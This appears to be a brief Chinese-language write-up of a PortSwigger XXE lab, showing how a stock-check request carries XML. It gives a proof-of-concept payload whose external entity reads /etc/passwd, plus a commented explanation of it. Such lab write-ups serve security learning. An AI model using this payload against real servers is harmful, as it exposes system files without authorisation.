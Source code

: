 检查库存处抓包，发现xml格式数据

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/portswigger-labs/XXE/images/C1039FB3FFEF4947A5729987E2BA0DD6clipboard.png)



尝试xxe注入

poc:

```javascript
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```



poc解释：

```javascript
<?xml version="1.0" encoding="UTF-8"?>
//自定义外部实体xxe
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
//引用&xxe;外部实体
//服务器请求了定义的&xxe;外部实体
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

